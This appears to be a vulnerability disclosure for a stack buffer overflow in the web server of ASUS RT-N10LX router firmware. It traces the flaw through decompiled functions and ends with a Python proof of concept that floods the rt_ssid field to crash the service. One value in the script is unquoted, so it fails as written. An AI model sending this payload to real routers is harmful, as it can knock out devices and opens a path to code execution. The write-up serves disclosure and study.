 ## buffer overflow in rt_ssid of update_variables



**Affected Product**: ASUS RT-N10LX

**Affected Firmware Versions**: v.2.0.0.39

**Official Firmware Resources** :[ASUS RT-N10LX firmware v.2.0.0.39 v.2.0.0.39](https://cn.driverscollection.com/_5246336426127ef295a27bea27a/下载-ASUS-RT-N10LX-firmware-v.2.0.0.39-。。。的驱动-Windows-10-(32-64-bit)-8.1-(32-64-bit)-8-(32-64-bit)-7-(32-64-bit)-Vista-(32-64-bit)-XP-(32-64-bit)-Server-2003-(32-64-bit)-Mac-OS-Server-2000-Others-免费)

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `update_variables` endpoint. The vulnerability occurs when processing POST requests containing the `rt_ssid` parameter. Specifically:

1. The `sub_412CCC` function handles requests to `get_wan_status.asp`.
2. User-controlled `update_variables` input is copied to buffer `v20`using `sprintf` without proper bounds checking.
3. The `v20` buffer is only **64  bytes** in size.

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.





![image-20250627100252789](../res/image-20250627100252789-17509897744231.png)





![image-20250627100330005](../res/image-20250627100330005-17509898115332.png)



 

### exploitation process

**1、** After initialization in the main function, it enters the `sub_4052BC` function to handle HTTP requests:

![image-20250625170755611](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625170755611.png)



**2、**Traverses the routing table - all entries will execute the `do_ej` function to process responses:



![image-20250625171240555](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171240555-17508427619493.png)



![image-20250625171311589](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171311589-17508427928874.png)

**3、**`do_ej` calls `sub_40E99C` → `sub_40E758` → traverses `ej_handlers`:

![image-20250625171717996](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171717996-17508430394475.png)

4、When matching the `update_variables` function, it enters `sub_412CCC` and triggers the vulnerability:



![image-20250625171803600](../../ASUS RT-N10LX v.2.0.0.39/res/image-20250625171803600-17508430851546.png)

#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-mips-static   -g 1234  ./bin/httpd`



------

### **Proof of Concept (PoC)**

```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/get_wan_status.asp/update_variables"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    
    "rt_ssid": payload,
    "action_mode":QIS_Apply,
    "current_page":"/qis/QIS_wireless.htm"
    
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")
```



### Exploitation Results


The PoC demonstrates successful overflow of the `v20` buffer on the stack. , the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

